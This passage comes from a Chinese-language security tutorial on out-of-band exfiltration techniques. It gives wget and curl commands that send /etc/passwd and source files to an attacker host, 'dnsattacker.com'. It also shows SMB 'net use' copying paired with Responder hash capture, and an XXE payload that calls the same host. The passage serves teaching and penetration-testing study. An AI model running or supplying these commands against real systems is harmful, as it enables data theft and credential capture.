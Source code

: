 同样，我们可以使用：

```bash
wget –post-data exfil='cat /etc/passwd' http://dnsattacker.com           # extract data  in post section

wget –post-file trophy.php http://dnsattacker.com    # extract source code

cat /path/to/sensitive.txt | curl –F ":data=@-" http://dnsattacker.com/test.txt
```

### 5. SMB [使用Responder窃取哈希]

**Windows**

受害者

```bash
net use h: \\dnsattacker.com\web
```

攻击者

```bash
sudo ./Responder.py -I eth0#Run responder to capture hashes
```

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629964_5b971cccb6bd5.png!small)](https://image.3001.net/images/20180911/1536629964_5b971cccb6bd5.png)

同样，我们可以使用：

```bash
net use h: \\dnsattacker.com\web /user: {password} && copy {file.txt to Copy} h:\{file.txt}.txt
```

## 四、XXE：Out of Band

### **1. 检测**

我们可以通过向攻击者域（即oob.dnsattacker.com）创建DNS请求来确认XXE漏洞是否存在。这里有一个非常好的[XML实体利用的练习框架](https://pentesterlab.com/exercises/play_xxe)推荐给大家。

受害者：

```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://xxeoob.oob.dnsattacker.com">
<foo>&e1;</foo>
```

攻击者：

```bash
sudo tcpdump -n udp port 53
```

**![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630003_5b971cf3de464.png!small)**

**限制：**在撰写本文时，DNS查询仅能用于XXE的检测。
